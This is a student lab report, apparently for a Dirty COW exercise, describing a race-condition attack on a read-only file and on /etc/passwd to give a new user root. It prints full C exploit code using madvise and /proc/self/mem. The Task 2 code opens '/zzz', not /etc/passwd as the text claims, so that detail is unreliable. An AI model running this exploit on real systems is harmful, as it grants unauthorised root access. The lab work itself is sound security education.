






### Task 1: Modify a Dummy Read-Only file

**Create a dummy file:**

Created a file at `/` named `zzz`:


Provided `644` permissions such that only root can have r/w access and others can only read this file.

- Confirmed that a regular user can't write to this file.



**Launch the attack:**

After compiling the given code and running the executable, I can see the file content has been modified. i.e., `222222` is replaced with `******`.



---

### Task 2: Modify the Password File to Gain the Root Privilege

Created a new user named `charlie`.


We can see the charlie's UID is set to `1001`


Modifying the charlie’s entry in `/etc/passwd`, from 1001 to 0000, turning charlie into a root account. 

My Code:

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;
  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);
  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             
  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
void *writeThread(void *arg)
{
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```


After compiling and running the executable, we can see that user `charlie` got access to root with the regular user permissions. 



`cat /etc/passwd`:




---